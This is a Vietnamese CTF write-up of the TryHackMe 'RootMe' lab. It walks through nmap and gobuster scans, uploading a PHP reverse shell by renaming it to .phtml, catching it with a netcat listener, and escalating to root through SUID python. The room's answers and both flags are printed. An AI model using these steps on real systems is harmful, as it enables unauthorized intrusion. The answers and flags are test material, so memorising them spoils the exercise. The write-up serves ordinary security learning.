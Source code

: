 # RootMe

## Deploy the machine
> No answer needed

============================================================================================

Những câu ở task 2 thì chỉ cần **nmap** phát là nó ra hết à...

Đây là kết quả sau khi nmap máy mục tiêu
```c
└─$ cat scan_result     
# Nmap 7.94 scan initiated Mon Oct 16 21:56:44 2023 as: nmap -sC -sV -oN nmap/scan_result 10.10.36.56
Nmap scan report for 10.10.36.56
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 16 21:57:34 2023 -- 1 IP address (1 host up) scanned in 49.66 seconds
```
## Scan the machine, how many ports are open?
> 2
## What version of Apache is running?
> 2.4.29
## What service is running on port 22?
> ssh
## Find directories on the web server using the GoBuster tool.
> No answer needed
## What is the hidden directory?
 Với file ẩn thì dùng GoBuster để tìm

    gobuster dir -w /usr/share/wordlists/dirb/common.txt 10.10.185.22

 Và đây là kết quả:
 ```c
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.185.22
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/css                  (Status: 301) [Size: 310] [--> http://10.10.185.22/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 309] [--> http://10.10.185.22/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.185.22/panel/]
/server-status        (Status: 403) [Size: 277]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.185.22/uploads/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
----------------------------------------------------------------

## Find a form to upload and get a reverse shell, and find the flag.
> Answer the questions below

Có vẻ như chúng ta cần chèn 1 cái reverse shell vào trang web này để lấy flag, trùng hợp là ở **/panel** ta có thể upload file lên.

![img/image1.png](img/image1.png)

Sau đó tìm kiếm 1 cái reverse shell php trên github rồi tải về https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Thử upload nó lên nhưng tác giả đã chặn không cho upload file php, tuy nhiên với file php, đuôi php không phải là đuôi file duy nhất:)) , thử đổi tên file reverse shell thành đuôi .phtml, sau đó thử upload lên và kết quả là đã thành công.

Sau đó mở file này ở bên **/uploads** đồng thời ở terminal cũng dùng:
```c
nc -lvp 9999
``` 
Cái này mục đích để lắng nghe các kết nối có cổng 9999, khi chạy file reverse bên máy chủ và đặt cổng của trong reverse shell file là 9999.

```
└─$ nc -lvp 9999
listening on [any] 9999 ...
10.10.231.195: inverse host lookup failed: Unknown host
connect to [10.18.36.52] from (UNKNOWN) [10.10.231.195] 51950
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:55:35 up 39 min,  0 users,  load average: 0.00, 0.00, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Giờ thì chúng ta đã chui vào được trong trang web, giờ thì tìm file user.txt thôi. Nếu rảnh thì cũng có thể tìm trong từng thư mục:)) hoặc nếu không rảnh thì có thể dùng:
```
$ find / -name user.txt -type f 2>/dev/null    
/var/www/user.txt
$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
```
Hể ưe go đây là flag đầu tiên!

## Privilege Escalation

Welp đề bài có nói về quyền SUID, quyền này đơn giản thì file nào có quyền này sẽ được chạy với quyền ROOT, nên có thể khai thác được, để kiểm tra quyền SUID:
```c
   find / -perm -u=s -type f 2>/dev/null
```

Sau khi search, có một thứ khá là lạ có quyền SUID

![img/image2.png](img/image2.png)

### Search for files with SUID permission, which file is weird?
> /usr/bin/python

Để xác nhận, có một trang web khá hay ho để kiểm tra các lỗ hổng https://gtfobins.github.io/

Sau khi tìm kiếm thì ta có được đoạn script này để khai thác lỗ hổng và leo thang đặc quyền

![img/image3.png](img/image3.png)

Chạy nốt câu lệnh và ta đã truy cập được với quyền root, giờ vào **/root** để lấy flag cuối cùng thôi.
### root.txt
> THM{pr1v1l3g3_3sc4l4t10n}



